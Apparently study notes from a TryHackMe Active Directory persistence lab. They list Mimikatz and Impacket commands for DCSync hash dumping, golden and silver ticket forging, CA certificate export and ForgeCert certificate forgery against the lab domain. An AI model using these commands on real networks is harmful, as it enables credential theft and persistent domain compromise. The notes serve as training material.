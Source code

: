 ## Persistence in AD
# DC SYNC all 
`mimikatz # log syncemup_dcdump.txt `
`mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all`*Get all username, hashes and etc*
# DC SYNC Alrternative of mimi(remote ofc)
`python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/<AD_Admin_User>@MACHINE_IP`
0x36c8d26ec0df8b23ce63bcefa6e2d821

# Forge tickets
` Get-ADDomain` *Get the domain SID*
*All the other information can be found on a dc sync*

**Golden ticket**
`mimikatz # kerberos::golden /admin:ALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt`

**Silver ticket**
`         
mimikatz # kerberos::golden /admin:ALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt`

# Generating our own Certificates become CA and make them cry
`mimikatz # crypto::certificates /systemstore:local_machine`
`mimikatz # privilege::debug`
`mimikatz # crypto::capi`
`mimikatz # crypto::cng`
`mimikatz # crypto::certificates /systemstore:local_machine /export`*The exported certificates will be stored in both PFX and DER format to disk, The za-THMDC-CA.pfx certificate is the one we are particularly interested in. In order to export the private key, a password must be used to encrypt the certificate. By default, Mimikatz assigns the password of mimikatz.*

`C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 `

    CaCertPath - The path to our exported CA certificate.
    CaCertPassword - The password used to encrypt the certificate. By default, Mimikatz assigns the password of mimikatz.
    Subject - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.
    SubjectAltName - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.
    NewCertPath - The path to where ForgeCert will store the generated certificate.
    NewCertPassword - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.
